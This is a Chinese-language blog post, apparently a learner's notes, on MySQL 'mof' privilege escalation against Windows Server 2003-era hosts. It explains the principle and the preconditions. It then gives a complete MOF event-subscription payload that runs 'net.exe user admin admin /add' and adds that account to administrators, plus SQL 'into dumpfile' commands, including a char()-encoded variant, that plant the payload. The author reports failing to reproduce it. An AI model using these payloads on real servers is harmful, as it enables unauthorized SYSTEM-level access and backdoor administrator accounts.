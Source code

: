 ```yaml
---
layout: post
title: mof提权
key: 20180620
tags: MySQL提权
---
```


第一次接触提权，先看了个最简单的，哈哈哈哈，看了几个视频和文章，然后整理了一下，估计很多不对的地方，等真正了解了就回来改掉。

<!--more-->

## 原理  
mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.mof，叫做托管对象格式，
它的作用是每隔5秒，就会去监控进程的创建和死亡。mof提权的简单利用过程就是，拥有了MySQL的root权限
后，使用root权限去执行上传操作，将我们重新改写过的mof文件上传，之后，这个文件会被服务器每隔5秒
以system权限执行。这个改写的mof中，有一段是vbs脚本，这个vbs大多数是cmd的添加管理员用户的命令。
  
  
## 为什么可以提权？  
可以提权的根本原因是因为有一个更高权限的线程执行了命令。我们这里nullevt.mof文件的加载过程由system
用户执行，因此我们可以最高把用户的权限提升到system。  
  
  
## 利用条件  
- Windows版本<=2003  
- c:\windows\system32\wbem\mof目录可写入  
- 数据库允许外连，且已知root账号密码  
  
 
## 利用代码  
```
# pragma namespace("\\.\root\subscription")

instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```
其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
“net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。  
  
## 利用过程  
  
### 拥有网站webshell时  
如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可  
>select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';  
  
这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。  
  
### 未拥有网站webshell  
对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。  
```
select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';
```  

  
## 总结  
emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
文件夹可以写入，但是写入后会自动创建个名字叫做bad的文件夹，然后将我的nullevt.mof移动到里面去，这是什么原因呢，暂时还不知道，网上搜了下，也
没看到什么解释，等找个时间问问dalao，在来补充吧...  
  
>离职了，想找新工作了，加油吧!!!! >_<
